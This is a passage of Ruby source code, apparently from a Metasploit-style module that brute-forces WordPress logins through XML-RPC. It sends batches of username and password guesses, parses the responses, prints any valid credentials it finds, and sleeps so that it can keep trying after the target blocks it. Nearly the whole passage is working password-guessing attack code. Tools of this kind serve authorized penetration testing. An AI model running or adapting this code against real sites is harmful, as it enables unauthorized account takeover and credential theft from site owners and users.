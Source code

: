 ```
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end

  def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml 
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
        end

  end end end
end 
```

